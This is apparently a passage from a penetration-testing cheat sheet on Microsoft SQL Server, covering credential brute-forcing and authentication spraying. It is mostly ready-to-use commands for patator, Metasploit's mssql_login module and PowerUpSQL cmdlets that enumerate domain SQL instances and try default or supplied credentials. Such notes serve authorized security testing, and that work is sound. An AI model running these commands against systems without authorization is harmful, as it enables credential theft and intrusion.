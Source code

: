 The `Metasploit`'s `auxiliary/scanner/mssql/mssql_login` module and `patator`
can be used to brute force credentials for the service.

```bash
patator mssql_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'

# The `BLANK_PASSWORDS` option is worth setting to "true".
msf > use auxiliary/scanner/mssql/mssql_login
```

Alternatively, `PowerUpSQL`'s `Get-SQLServerLoginDefaultPw` PowerShell cmdlet
can be used to test if the targeted `SQL Server` instance(s) are configured to
accept (50+) **known default passwords**:

```
Get-SQLServerLoginDefaultPw -Verbose -Instance '<INSTANCE>'

# Enumerates the SQL servers of the AD domain (Service Principal Name matching "MSSQL*") and attempt the bruteforce of default credentials.
Get-SQLInstanceDomain | Get-SQLServerLoginDefaultPw -Verbose
Get-SQLInstanceDomain -DomainController <DC_IP> -Username <DOMAIN>\<USERNAME> -Password <PASSWORD> | Get-SQLServerLoginDefaultPw -Verbose
```

###### Authentication spraying

A combination of the `PowerUpSQL`'s `Get-SQLInstanceDomain` and `Get-SQLConnectionTestThreaded` PowerShell cmdlets can be used to:
  - first enumerate the `SQL Server` instances of an `Active Directory` domain
  - then attempt authentication using the current security context or the
    specified (local or windows) credentials on the discovered instances.

The `Get-SQLInstanceDomain` cmdlet can be replaced by the
`Get-SQLInstanceBroadcast` cmdlet to attempt spraying over the `SQL server`
instances of the local subnet.

```bash
# Enumerates the SQL server instances and attempt an authentication using the specified credentials.
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads <15 | THREAD_NUMBER> -username <USERNAME> -password <PASSWORD> | Where-Object {$_.Status -like "Accessible"}

# Enumerates the SQL server instances and attempt an authentication using the current security context.
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads <15 | THREAD_NUMBER> | Where-Object {$_.Status -like "Accessible"}

# Enumerates the SQL server instances and attempt an authentication using the specified domain credentials.
runas /noprofile /netonly /user:<DOMAIN>\<USERNAME> powershell.exe
Get-SQLInstanceDomain -Verbose -Username '<DOMAIN>\<USERNAME>' -Password '<PASSWORD>' -DomainController <DC_IP> | Get-SQLConnectionTestThreaded -Verbose -Threads <15 | THREAD_NUMBER>
```

### Information gathering and data retrieval
